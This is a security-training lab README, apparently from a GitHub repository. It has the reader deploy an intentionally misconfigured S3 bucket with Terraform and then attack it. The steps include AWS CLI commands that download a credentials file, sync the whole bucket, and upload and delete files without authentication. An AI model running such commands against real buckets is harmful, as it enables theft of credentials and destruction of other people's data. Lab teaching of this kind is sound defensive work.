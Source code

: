# S3 Misconfiguration

## Note - No aws configuration required for this lab

## please install the below cli tools 


* AWS CLI

```bash
sudo apt-get install awscli
```
* Terraform - click on the below link for further help on on installing 

```bash
https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
```

* Clone the repository 

```bash
git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 1: Change Directory

```bash
cd /s3misconfiguration
```
* Step : Initialise terraform 

```bash
terraform init
```

* Step : Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 4: Export bucket name
```bash
export s3bucket=<bucketname> 
```

* Step 5: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket
```

* Step 6: Now lets perform all the possible attack scenario 

* Step 7: Lets first download the fishy files - change to your current working directory

```bash
aws s3 cp s3://$s3bucket/creds.txt /home/abhi/seasides/

```
* To download all the files from the bucket use sync command

```bash
aws s3 sync s3://$s3bucket /home/abhi/seasides/test/
```

* Step 8: Let's upload a new file 

```bash
aws s3 cp seasides.jpeg s3://$s3bucket --no-sign-request --region us-west-2
```

* Step 9: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/emp_pay_dont_delete.csv --no-sign-request --region us-west-2
```


* By this we know that the attacker has performed all the malicious functionalities ie, CRUD operations which leads to Vulnerabilities such as 
 * Broken Authentication
 * Sensitive Information Disclosure 


 
